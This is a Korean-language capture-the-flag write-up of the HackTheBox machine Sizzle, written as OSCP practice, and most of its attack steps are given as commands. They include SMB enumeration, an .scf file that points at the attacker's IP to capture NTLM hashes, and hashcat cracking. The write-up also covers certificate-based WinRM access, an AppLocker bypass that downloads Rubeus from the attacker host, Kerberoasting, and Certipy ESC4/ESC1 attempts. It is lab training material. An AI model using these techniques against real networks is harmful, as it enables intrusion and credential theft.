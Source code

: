 ```yaml
---
layout: post
title: HackTheBox Sizzle
subtitle: Machine Sizzle Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - OSCP
  - AD
sidebar:
---
```

## Summary
![](assets/images/posts/2025-03-08-Sizzle/c85a008bf6289891ddee6fd8f83bd01d_MD5.jpeg)
## Target - 10.x.x.x
### Open Port
```bash
nmap -sC -sV -Pn -p- -oN Sizzle_allport 10.129.166.251
```
![](/assets/images/posts/2025-03-08-Sizzle/91a4fe3520641d350d9cd2c17fa526c3_MD5.jpeg)

### Web Enum
```bash
gobuster dir -u 10.129.89.62 -w /usr/share/wordlists/dirb/common.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/0890786f6c0ab662374a5b273a0b20d6_MD5.jpeg)
### SMB Attack
```bash
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --shares
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --rid-brute

# smb folder mount
sudo mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
sudo ./writable.sh

sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/Users/Public
sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/ZZ_ARCHIVE

sudo responder -I tun0
```

```sh
# writable.sh
#!/bin/bash
list=$(find /home/g3rrrm/Sizzle/mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
```

```bash
# hack.scf
[Shell]
Command=2
IconFile=\\10.10.14.92\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
![](/assets/images/posts/2025-03-08-Sizzle/feb90a37281f6081119d064d6c0c300d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/16672031a8f50e465559f4f7dbdf0a21_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/fc82eacd35aec5676eb07300e6cd4b3c_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/89969ad0325ec9c49a8363e96f6e8973_MD5.jpeg)
### Password Crack
```bash
hashcat -h | grep NTLM
hashcat -m 5600 amanda.hash /usr/share/wordlists/rockyou.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/bb07d49603b833a15eba2b10bf594f06_MD5.jpeg)

### Evil-WinRM [Key Auth]
WinRM은 기본적으로 ID/PW 기반의 기본 인증을 통해 인증하지만, 인증서 기반 인증을 통해 인증할 수도 있다.
```bash
# openssl 통한 CSR 파일 생성
openssl req -new -newkey rsa:2048 -nodes -keyout private.key -out request.csr

# 그 후 http://10.129.89.62/certsrv/ : amanda : Ashare1972 를 통해 request.csr 업로드 후 cer 다운로드 [사진 참조]
cat request.csr

# 받은 cer로 인증 시도
evil-winrm -S -i 10.129.112.117 -u amanda -p Ashare1972 -c certnew.cer -k private.key
```

![](/assets/images/posts/2025-03-08-Sizzle/3d8b59e04c54f7fa179ee9814a386110_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/d224011add69d27ae61ee3aee5c2a1fc_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/144b5f744e59341ac128e8268ccc74c2_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/8cf46c442ad95dcf7d1e8cd5cd957537_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/02687eaeda255f9a483846f37269bd4d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/4826fff15c51a7fcbd0059136518aa59_MD5.jpeg)
#### WinRM Shell [번외]
```bash
gem install winrm

# winrm_shell.rb 생성
require 'winrm'  
  
#Append necessary changes in winrm_shell.rb  
conn = WinRM::Connection.new(  
endpoint: 'https://10.10.10.103:5986/wsman' ,  
transport: :ssl,  
:client_cert => 'certnew.cer' , # from the server  
:client_key => 'private.key' , # private key  
:no_ssl_peer_verification => true)  
  
command=""  
  
conn.shell(:powershell) do |shell|  
	until command == "exit\n" do  
		output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")  
	print(output.output.chomp)  
		command = gets  
		output = shell.run(command) do |stdout, stderr|  
			STDOUT.print stdout  
			STDERR.print stderr  
		end  
	end  
	puts "Exiting with code #{output.exitcode}"  
end

# 실행
ruby winrm_shell.rb
```
### AppLocker Bypass
.exe, .ps1 등 실행이 안된다면 AppLocker 우회 방법을 통해 우회 시도

```powershell
# 내부적으로 88 port가 열려있음을 알 수 있음 -> 커버로스 관련 공격 가능
netstat -ap tcp

# blocked
iwr -uri http://10.10.14.92:8000/Rebeus.exe -OutFile Rebeus.exe
.\Rebeus.exe

# bypass
# https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
Move-Item -Path C:\Users\amanda\Desktop\Rubeus.exe -Destination C:\Windows\Temp\Rubeus.exe
cd C:\Windows\Temp
.\Rubeus.exe
```

![](assets/images/posts/2025-03-08-Sizzle/33c7c6b55545b8aaef121dcbd2651785_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/d49bb89ba91bb4d4ce46302d97521c9e_MD5.jpeg)
### Rubeus.exe
```powershell
# roasting 시도
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```
![](assets/images/posts/2025-03-08-Sizzle/5a76f4478ad69812193c9b1145cc27d1_MD5.jpeg)

### Password Crack
```bash

```

## 실패 모음
### AD CS [Active Directory Certificate Services]
88 Port [커버로스] 닫혀있어서 실패...
```bash
# http://10.129.89.62/certsrv/ : amanda : Ashare1972
certipy find -u amanda -p Ashare1972 -dc-ip 10.129.112.117 -vulnerable

# ESC4 Exploit : ECS4는 취약한 템플릿을 만들 수 있는 취약점
certipy template -dc-ip 10.129.112.117 -u amanda -p 'Ashare1972' -template SSL -target sizzle.htb.local -save-old

certipy req -ca 'HTB-SIZZLE-CA' -dc-ip 10.129.112.117 -u 'amanda' -p 'Ashare1972' -template SSL -target 'sizzle.htb.local' -upn 'Authenticated Users@htb.local'

# 그 후 다시 vuln 조사하면 ESC1이 취약함으로 변경 됨.
# ESC1 Exploit : 
certipy req -u amanda -p 'Ashare1972' -ca 'HTB-SIZZLE-CA' -template SSL -dc-ip 10.129.112.117 -upn 'Administrator@htb.local'

# in Linux
certpy auth -pfx administrators.pfx -dc-ip 10.129.112.117
```
![](/assets/images/posts/2025-03-08-Sizzle/0b7776e5bf429f95044c8fb4e5e9c1f3_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/90fd5a11b99e4b8479c6619b5c6b0f68_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/f87d0086ead259e73afd7b15405c377c_MD5.jpeg)

![](/assets/images/posts/2025-03-08-Sizzle/74208aab76029e691df0a9d30c327b77_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/58218e4bf47327c33fc31589180b1f64_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/06a2d4d6f3b323ac6a2224ff2203209d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/50f1e956227263d7c075ce19186f646b_MD5.jpeg)
### ING
```
Domain : HTB.LOCAL
DNS : sizzle.HTB.LOCAL

21 FTP
Anonymous FTP login allowed

80, 443 WEB
일단 별거 없어 보임

464
kpasswd Kerberos 암호화 키 변환 서비스

636, 3268, 3269 LDAP

ESC1, ESC2 취약함
"SUBCA@HTB.LOCAL"
Template Name : SubCA
```

```
Credential

amanda : Ashare1972
```